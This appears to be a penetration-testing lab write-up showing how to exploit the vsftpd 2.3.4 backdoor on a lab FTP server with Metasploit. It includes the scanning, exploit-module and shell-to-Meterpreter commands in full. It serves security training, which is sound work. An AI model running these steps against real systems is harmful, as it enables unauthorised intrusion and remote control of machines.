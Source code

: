 # 🔬FTP - MSF Exploit

## Lab 1

>  🔬 [Vulnerable FTP Server](https://www.attackdefense.com/challengedetailsnoauth?cid=179)
>
>  - Target IP: `192.80.80.3`
>  - Exploit the target with the appropriate Metasploit Framework module
>  - [vsftpd 2.3.4 - Backdoor Command Execution](https://www.exploit-db.com/exploits/49757)

```bash
ip -br -c a
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 192.80.80.3
setg RHOST 192.80.80.3
workspace -a vsftpd2.3.4
```

- Perform an `nmap` scan directly into MSF

```bash
db_nmap -sS -sV -O 192.80.80.3
```

![db_nmap -sS -sV -O 192.80.80.3](assets/image-20230416130726833.png)

```bash
analyze # error
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
info
# Description:
#   This module exploits a malicious backdoor that was added to the 
#   VSFTPD download archive. This backdoor was introduced into the 
#   vsftpd-2.3.4.tar.gz archive between June 30th 2011 and July 1st 2011 
#   according to the most recent information available. This backdoor 
#   was removed on July 3rd 2011.
options
run
```

```bash
/bin/bash -i
```

![Metasploit - exploit/unix/ftp/vsftpd_234_backdoor](assets/image-20230416131200154.png)

- Shell to `Meterpreter` post exploitation

```bash
background
sessions
search shell_to_meterpreter
use post/multi/manage/shell_to_meterpreter
set SESSION 2
set LHOST eth1
run

sessions
sessions 3
```

![](assets/image-20230416131524452.png)

------

